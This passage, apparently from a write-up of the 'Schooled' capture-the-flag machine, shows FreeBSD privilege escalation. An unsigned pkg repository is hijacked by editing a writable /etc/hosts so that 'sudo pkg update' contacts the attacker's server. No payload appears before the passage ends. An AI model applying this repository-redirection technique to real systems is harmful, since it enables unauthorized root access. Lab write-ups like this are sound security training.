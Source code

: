 ```
  url: "pkg+http://devops.htb:80/packages",
  mirror_type: "srv",
  signature_type: "none",
  fingerprints: "/usr/share/keys/pkg",
  enabled: yes
}

```

Only root can edit this file. So that rules out my changing it to point to my host as the server.

At this point, I know that jamie can run commands as root that will reach out to devops.htb and get updates. Interestingly, if I try to ping devops.htb, it resolves (though no pings succeed):

```

jamie@Schooled:~ $ ping -c2 devops.htb
PING devops.htb (192.168.1.14): 56 data bytes
--- devops.htb ping statistics ---
2 packets transmitted, 0 packets received, 100.0% packet loss

```

It resolved to 192.168.1.14 because it’s defined in the `/etc/hosts` file.

```

jamie@Schooled:~ $ grep -v "^#" /etc/hosts
::1                     localhost localhost.my.domain
127.0.0.1               localhost localhost.my.domain Schooled schooled.htb moodle.schooled.htb
192.168.1.14            devops.htb

```

More interesting, members of the wheel group can edit `/etc/hosts`, and jamie is in the wheel group:

```

jamie@Schooled:~ $ ls -l /etc/hosts
-rw-rw-r--  1 root  wheel  1098 Mar 17 15:47 /etc/hosts
jamie@Schooled:~ $ id
uid=1001(jamie) gid=1001(jamie) groups=1001(jamie),0(wheel)

```

I’ll update the IP to by mine, and run the `update` command with an HTTP server listening on my VM:

```

jamie@Schooled:~ $ sudo pkg update
Updating FreeBSD repository catalogue...
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
pkg: http://devops.htb/packages/meta.txz: Not Found
repository FreeBSD has no meta file, using default settings
pkg: http://devops.htb/packages/packagesite.txz: Not Found
Unable to update repository FreeBSD
Error updating repositories!

```
